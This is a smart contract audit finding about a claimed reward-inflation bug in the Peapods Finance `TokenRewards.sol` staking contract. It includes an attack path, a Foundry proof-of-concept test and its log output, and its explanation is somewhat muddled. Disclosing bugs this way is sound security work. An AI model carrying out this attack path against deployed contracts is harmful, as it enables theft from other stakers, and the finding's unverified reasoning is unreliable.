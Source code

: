 Curly Vermilion Scorpion

High

# Dilution of rewards pool of `TokenRewards`, when existing stakers are adding shares.

### Summary

In [`TokenRewards.sol`](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/contracts/contracts/TokenRewards.sol), when [`setShares`](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/d28eb19f4b39d3db7997477460f9f9c76839cb0c/contracts/contracts/TokenRewards.sol#L97C1-L112C1) function is invoked with `_shareRemoving` as false from [`StakingPoolToken.sol`](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/d28eb19f4b39d3db7997477460f9f9c76839cb0c/contracts/contracts/StakingPoolToken.sol#L101C1-L109C6) for adding shares via `_addShares` function for exisitng staker who already have shares in his _wallet trying to add new shares in his _wallet, will lead to reward diluation of rewardPool given that new rewardShares are being added from `depositRewards` after the intial addShares of existing staker.

### Root Cause

In `TokenRewards.sol` -> `Reward` struct there are two elements excluded & realized. Which is getting used in both `_distributeReward` -> `getUnpaid` and `_resetExcluded`. 

In which `realized` and `excluded` are getting inflated in the described scenario:  
Take this scenario where a user is already a staker with shares equivalent to 100e18, after his first addition of shares new rewards is being added via depositRewards to add reward to rewardToken address after certain timeframe let's assume 1week. After which user is adding more shares which is leading to diluation of rewards for other new stakers.


### Internal Pre-conditions

- Contract must have rewards deposited
- `totalShares` must be greater than 0

### External Pre-conditions

- A user must have existing shares in the system
- Additional rewards must have been deposited since their initial share addition
- The user must perform another share addition operation

### Attack Path

- User initially stakes tokens (adds shares)
- Wait for rewards to accumulate in the system via `depositRewards`
- User adds more shares, triggering:
    - Distribution of pending rewards and reset of excluded rewards, after adding more rewards to reward pool leading to gaining more rewards then he should have.
- Reiterate the above steps to maximize inflation.


### Impact

Loss of Funds. This vulnerability allows users to inflate their rewards by repeatedly adding shares. 

### PoC

To test this PoC add it to `TokenRewards.t.sol` and use command `forge test --mt test_addSharesResetExclude --rpc-url <mainnet-url>`

```solidity
function test_addSharesResetExclude() public {

// Setup initial state

rewardsWhitelister.setWhitelist(address(rewardsToken), true);

console.log("\n=== Initial Setup ===");

// Mint and deposit initial rewards

rewardsToken.mint(address(this), 1000e18);

tokenRewards.depositRewards(address(rewardsToken), 100e18);

console.log("Initial rewards deposited:", 100e18);

// First time user adds shares

vm.startPrank(address(trackingToken));

tokenRewards.setShares(user1, 100e18, false);

vm.stopPrank();

// Record state after first share addition

(uint256 excluded1, uint256 realized1) = tokenRewards.rewards(address(rewardsToken), user1);

console.log("\n=== After First Share Addition ===");

console.log("Shares:", tokenRewards.shares(user1));

console.log("Excluded:", excluded1);

console.log("Realized:", realized1);

// Time passes (1 week)

vm.warp(block.timestamp + 1 weeks);

// New rewards are added during this time

tokenRewards.depositRewards(address(rewardsToken), 50e18);

console.log("\n=== After Time Skip and New Rewards ===");

console.log("Additional rewards deposited:", 50e18);

// Calculate expected rewards before second share addition

uint256 expectedBeforeSecond = tokenRewards.exposedCumulativeRewards(

address(rewardsToken),

100e18, // current shares

false // no rounding up

);

console.log("Expected rewards before second addition:", expectedBeforeSecond);

// User adds more shares

vm.prank(address(trackingToken));

tokenRewards.setShares(user1, 50e18, false); // Adding 50e18 more shares

// Get final state

(uint256 excludedFinal, uint256 realizedFinal) = tokenRewards.rewards(address(rewardsToken), user1);

// Calculate what rewards should have been with total shares

uint256 expectedTotal = tokenRewards.exposedCumulativeRewards(

address(rewardsToken),

150e18, // total shares after both additions

false // no rounding up

);

console.log("\n=== Final State ===");

console.log("Final shares:", tokenRewards.shares(user1));

console.log("Final excluded:", excludedFinal);

console.log("Final realized:", realizedFinal);

console.log("Expected total rewards:", expectedTotal);

console.log("Actual total (excluded + realized):", excludedFinal + realizedFinal);

console.log("Difference:", (excludedFinal + realizedFinal) - expectedTotal);

// Demonstrate reward dilution

assertGt(

excludedFinal + realizedFinal,

expectedTotal,

"Reward pool should be diluted due to incorrect reward calculation"

);

// Show the percentage of dilution

uint256 dilutionPercent = ((excludedFinal + realizedFinal) - expectedTotal) * 100 / expectedTotal;

console.log("\n=== Dilution Analysis ===");

console.log("Dilution percentage:", dilutionPercent, "%");

}
```

Logs:
```solidity

Logs:
  
=== Initial Setup ===
  Initial rewards deposited: 100000000000000000000
  
=== After First Share Addition ===
  Shares: 100000000000000000000
  Excluded: 0
  Realized: 0
  
=== After Time Skip and New Rewards ===
  Additional rewards deposited: 50000000000000000000
  Expected rewards before second addition: 50000000000000000000
  
=== Final State ===
  Final shares: 150000000000000000000
  Final excluded: 75000000000000000000
  Final realized: 50000000000000000000
  Expected total rewards: 75000000000000000000
  Actual total (excluded + realized): 125000000000000000000
  Difference: 50000000000000000000
  
=== Dilution Analysis ===
  Dilution percentage: 66 %
```



### Mitigation

_No response_